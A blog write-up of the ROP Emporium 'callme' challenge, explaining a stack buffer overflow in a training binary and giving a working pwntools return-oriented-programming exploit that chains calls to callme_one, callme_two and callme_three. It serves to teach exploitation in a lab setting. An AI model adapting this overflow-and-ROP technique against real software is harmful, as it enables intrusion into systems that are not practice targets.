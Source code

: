 ```yaml
---
title: "Return-Oriented Programming - Callme"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary:  
images: []
layout: PostLayout
canonicalUrl:
---
```


## Introduction

Challenge Description

The goal of this challenge is to understand how  more than one argument is  passed in x64 function. The challenge can be downloaded from the authors website [ropemporium](https://ropemporium.com)

>Reliably make consecutive calls to imported functions.
>Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

>**You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

First we check the binary protections enabled on the callme binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open the **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior of the binary. radare2 is a powerful disassembler/debugging tool in Linux, used for examining the  behavior of programs.

![](/static/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command in to do disassembly at a given function. From the image above, the function **pwnme** looks similar to the previous challenges ret2win and split.

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/static/images/ropemporium/stack.png)


Therefore the next function is read function, which reads for user input and stores in the specified buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From the above disassembled code, we are reading 0x200 bytes from the standard input file descriptor and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, we need to fill our buffer, overwrite the rbp register and control the return address.

For building our ropchain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.

Because the system function receives one argument, we need to look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/static/images/ropemporium/poprdi_callme.png)

Next step is to determine the address of callme_one, callme_two, callme_three functions. For determining the functions address we use gdb to get the memory addresses.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb) 
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme* , we need to disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   ------
   ------
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave  
   0x000000000000092a <+272>:	ret    
End of assembler dump.
(gdb) 
```

From the disassembly code above, we can we are comparing our arguments in which we are passing to callme_one function. if the string values are not equal to values passed to the rdi, rsi and rdx registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with the pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

## Exploit
Fully working rop chain code is as shown below.

```python3
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)


callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three


io.writeafter('>', payload)

pwn.info(io.clean().decode())

```

Successful execution of the above code, we get rewarded with a correct flag.


![](/static/images/ropemporium/callme-flag.png)
